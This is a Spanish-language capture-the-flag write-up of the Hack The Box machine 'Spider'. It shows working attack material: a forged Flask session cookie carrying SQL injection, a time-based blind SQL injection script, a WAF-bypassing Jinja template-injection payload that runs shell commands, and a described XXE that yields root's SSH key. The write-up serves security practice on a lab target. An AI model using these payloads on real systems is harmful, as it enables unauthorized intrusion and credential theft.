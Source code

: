 ```yaml
---
title: Spider
date: 2023-04-27 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.93 scan initiated Thu Apr 27 19:26:31 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.243
Nmap scan report for 10.10.10.243
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28f161280163296dc5036da9f0b06661 (RSA)
|   256 3a158ccc66f49dcbed8a1ff9d7abd1cc (ECDSA)
|_  256 a6d40c8e5baa3f9374d6a808c9523909 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 27 19:26:43 2023 -- 1 IP address (1 host up) scanned in 11.60 seconds
```

![imagen1](/assets/images/Spider/spider1.png)

Nos encontramos una página de ventas de sillas, en primeras nos podemos crear una cuenta en la que nos crea un uuid como nombre de usuario para poder logearnos. Podemos ver que está flask por detrás, por lo que podemos intentar hacer SSTI en estos campos. Al intentar el ataque vemos que nos acepta la multiplicación de los 7.

![imagen2](/assets/images/Spider/spider2.png)

![imagen3](/assets/images/Spider/spider3.png)

Mediante la palabra config en corchetes se puede obtener información de la configuración de flask.

![imagen4](/assets/images/Spider/spider4.png)

```shell
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdan
e12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOK
E_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, '
AX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 
PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': Non
, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_
RL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 
X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```
En esta nos encontramos la secret key que nos sirve para crear las cookies que se nos asigna. Al revisar la cookie vemos que parte de ella está codificado en base64 donde nos muestra la uuid y un campo cart. Se puede intentar hace una inyección sql sobre esta cookie para verificar si aquí toma el valor del uuid y así lo muestra en la página de inicio. Podemos ver que al hacer una validación nos logeamos con el usuario chiv.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Spider$ flask-unsign  --sign --cookie "{\"cart_items\":[],\"uuid\":\"8709663b-97db-4cdb-a32c-2a24ad6c44f4' or 1=1 -- -\"}" --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'

eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Ijg3MDk2NjNiLTk3ZGItNGNkYi1hMzJjLTJhMjRhZDZjNDRmNCcgb3IgMT0xIC0tIC0ifQ.ZEs21w.FCV6nCu0F9ULcNnjV9CImWpmad0
```
![imagen5](/assets/images/Spider/spider5.png)

Podemos realizar una inyección basada en tiempo para dumpear la información que contiene la tabla. Podemos hacer uso de sqlmap o crear nuestro propio script, para fines de practicar haremos nuestro propio script.

```python
import sys, os, requests, time, pdb, signal
import subprocess, string
from pwn import *


def def_handler(sig, frame):
	print("\n\nSaliendo....\n")
	sys.exit(1);

signal.signal(signal.SIGINT, def_handler)

chars = string.ascii_lowercase + string.digits + "-"
url = "http://spider.htb"
secret = "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942"
uuid = "7f4a510d-0730-4e0d-a935-45476ae0ff62"

def send_request():
    
    p1 = log.progress("Efectuando ataque de fuerza bruta")
    p1.status("Enumerando")
    p2 = log.progress("Probando caracteres")
    p2.status("Iniciando")
    database = ""
    data = ""
    
    for data_position in range(0, 5):
        for character_position in range(1,50):
            for character in chars:
                p2.status("Probando con el caracter %s" % character)
                payload = "\\' and if(substr((select uuid from users limit %d,1),%d,1)=\\'%s\\',sleep(5),1)#" % (data_position, character_position,character)
                cookie = """{'cart_items':[],'uuid':'%s%s'}""" % (uuid,payload)
                session_cookie = subprocess.check_output("""flask-unsign --sign --cookie "%s" --secret '%s'""" % (cookie,secret), shell=True).decode().strip()
    
                headers = {'Cookie':'session=%s' %session_cookie}
        
                time_start = time.time()
                r = requests.get(url, headers=headers)
                time_end = time.time()

                if time_end - time_start > 5:
                    data+=character
                    p1.status(data)
                    break
        data+=character_position
if __name__ == "__main__":
    send_request()
```
Encontramos la uuid y contraseña del usuario chiv, procedemos a logearnos y vemos que estamos en el apartado de admin. Dentro de los mensajes nos encontramos una ruta donde podemos crear tickets de support, podemos intentar un SSTI como lo hicimos cuando encontramos el secreto. Vemos que un WAF está implementado por detrás, podemos ver en payloadallthethings

![imagen6](/assets/images/Spider/spider6.png)

![imagen7](/assets/images/Spider/spider7.png)

```python
% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()%
```
![imagen8](/assets/images/Spider/spider8.png)

Con esto estamos dentro de la máquina. Procedemos a enumerar por otro puertos abiertos y vemos que tenemos otro servicio web corriendo.

```shell
chiv@spider:/var/www/webapp$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          127.0.0.1:54166         ESTABLISHED
tcp        0      0 10.10.10.243:80         10.10.14.19:55810       ESTABLISHED
tcp        0    138 10.10.10.243:39492      10.10.14.19:443         ESTABLISHED
tcp        0      0 127.0.0.1:54166         127.0.0.1:3306          ESTABLISHED
tcp        0      1 10.10.10.243:36442      1.1.1.1:53              SYN_SENT   
tcp6       0      0 :::22                   :::*                    LISTEN     
```
![imagen9](/assets/images/Spider/spider9.png)

Dentro de esta encontramos una página en beta, podemos revisar que podemos hacer, nos logeamos con cualquier usuario y podemos ver nuestras cooies. Podemos tratar de descifrarla.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Spider/flask-session-cookie-manager$ python3 flask_session_cookie_manager3.py decode -c .eJxNjEFvgyAARv_KwnkH7WqTmexiAG03cKCActPRBC1as5HU2fS_z16aHb-8770rcPPgQHwFTy2IgUAUGzSX7HSQXPlRDqE6KvLbZrprBN6W6ZQYEUJWcSIh_xDIvpthv4jCw5WPhaBJjqeM94m-8_vWgYNMmQML0FZjm7cp9VTZTobiW0lTmBRXFFpCQr1Tbu1JVxE1M715Hf_7PLOXekFRs_ZJlXRNz18EItFXSuZc2YYv-FIP56B4_M1GnUxKsBMUecYWF9X9PiI4GT_L4A3cnsF07kb_A-Lg9gfxF1a8.ZExtKw.Af7yJIXucB1AWXDSVTvOS2yna1g
b'{"lxml":{" b":"UENFdExTQkJVRWtnVm1WeWMybHZiaUF4TGpBdU1DQXRMVDRLUEhKdmIzUStDaUFnSUNBOFpHRjBZVDRLSUNBZ0lDQWdJQ0E4ZFhObGNtNWhiV1UrWVdSdGFXNDhMM1Z6WlhKdVlXMWxQZ29nSUNBZ0lDQWdJRHhwYzE5aFpHMXBiajR3UEM5cGMxOWhaRzFwYmo0S0lDQWdJRHd2WkdGMFlUNEtQQzl5YjI5MFBnPT0="},"points":0}'
```
```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Spider/flask-session-cookie-manager$ echo "UENFdExTQkJVRWtnVm1WeWMybHZiaUF4TGpBdU1DQXRMVDRLUEhKdmIzUStDaUFnSUNBOFpHRjBZVDRLSUNBZ0lDQWdJQ0E4ZFhObGNtNWhiV1UrWVdSdGFXNDhMM1Z6WlhKdVlXMWxQZ29nSUNBZ0lDQWdJRHhwYzE5aFpHMXBiajR3UEM5cGMxOWhaRzFwYmo0S0lDQWdJRHd2WkdGMFlUNEtQQzl5YjI5MFBnPT0=" | base64 -d
PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YWRtaW48L3VzZXJuYW1lPgogICAgICAgIDxpc19hZG1pbj4wPC9pc19hZG1pbj4KICAgIDwvZGF0YT4KPC9yb290Pg==%        gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Spider/flask-session-cookie-manager$ echo "UENFdExTQkJVRWtnVm1WeWMybHZiaUF4TGpBdU1DQXRMVDRLUEhKdmIzUStDaUFnSUNBOFpHRjBZVDRLSUNBZ0lDQWdJQ0E4ZFhObGNtNWhiV1UrWVdSdGFXNDhMM1Z6WlhKdVlXMWxQZ29nSUNBZ0lDQWdJRHhwYzE5aFpHMXBiajR3UEM5cGMxOWhaRzFwYmo0S0lDQWdJRHd2WkdGMFlUNEtQQzl5YjI5MFBnPT0=" | base64 -d | base64 -d
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>admin</username>
        <is_admin>0</is_admin>
    </data>
</root>%         
```
Podemos ver que está utilizando para mostrar los datos. Con ayuda de burpsuite podemos ver que cuando nos logeamos logramos identificar estos mismos valores, esto podría sernos útil para ejecutar un XXE, creando una entidad en el valor de versión y llamarlo en el apartado de test que es el que nos muestra en la página.

![imagen10](/assets/images/Spider/spider10.png) 

![imagen12](/assets/images/Spider/spider12.png)

![imagen11](/assets/images/Spider/spider11.png)

Tratamos la id_rsa y podemos logearnos como root a la máquina víctima.
